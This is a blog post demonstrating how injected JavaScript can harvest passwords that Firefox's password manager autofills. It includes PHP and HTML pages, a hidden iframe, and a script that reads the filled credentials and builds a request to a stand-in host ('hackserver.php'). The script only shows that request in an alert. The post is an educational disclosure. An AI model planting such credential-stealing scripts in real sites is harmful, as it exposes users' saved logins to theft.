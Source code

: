 ```yaml
---
layout: post
title: Demonstrating Password Manager Almost Vulnerability in FireFox
tags:
- javascript
- security
---
```

The "security guys" have been talking about the problems with FireFox's password manager and I got curious.  It turns out that javascript can access saved passwords in your password manager simply by creating a login form and capturing the input field's contents.  While this isn't necessarily a vulnerability in FireFox, it does suck!  The biggest attack vector is websites that allow user submitted content that have script injection holes.  Basically, if a third party can create a form and insert some javascript on the page, they will be 'acting' to the browser as if they're a legitimate part of the site.  Lets check out a proof of concept:

First off, we have legitimate site here with its login form:

**`index.php`**
```html
<h1>Log In:</h1>

<form action="login.php" name="login" method="post">
    Username: <input type="text" name="username"></input><br></br>
    Password: <input type="password" name="password"></input><br></br>
    <input type="submit"></input>
</form>
```

And then we process the login (which allows firefox to save the password) and redirect to a standard page.

**`login.php`**
```php?start_inline=1
/**
 * yay logged in
 */
die(header("Location: loggedin.php"));
```

and my logged in page.

**`loggedin.php`**
```html
You're logged in now.

<a href="index.php">Log in again</a><br></br>
<a href="hack.php">Hack it</a>
```

As you can see, we can go back to the index.php page with the login form to verify that the password manager has saved our password.

Lets move on to the hack.php page which is the page that had a vulnerability that allowed the third party to insert some content.

**`hack.php`**
```html
Here is a normal page.  Don't feel scared.

<iframe src="iframe.php" style="visibility: hidden"></iframe>
```

In theory, you'd have to also have a file named iframe.php on the same server.  I just separated it to keep the code separate.  In a real life example, we'd be inserting the content of iframe.php inside of a div so it runs directly from that server.  But anyways...

**iframe.php (the evil code)**

```html
<html>
    <body onload="stealit()">
        <form action="login.php" name="login" method="post">
            Username: <input type="text" name="username"></input><br></br>
            Password: <input type="password" name="password"></input><br></br>
        </form>
        <script>
        function stealit()
        {
            var username=document.login.username.value;
            var password=document.login.password.value;
        
            alert("I am gonna do this:  self.location.href='http://hackserver.php?username=" + username + "&amp;password=" + password + "'");
        }
        </script>
    </body>
</html>
```

As you see, this makes an identical login form so that Firefox fills it in (firefox is doing its job! Don't be tooo mad).  Then, my script could go and make a request at a remote server with the username and password using ajax or loading an image or anything really.  (Here I just alert it.)

While I'm excited to see what Firefox is going to do to help stop this type of issue, I'm not mad and don't really think its that much of a bug.  When you use password manager, you KNOW what its going to do.
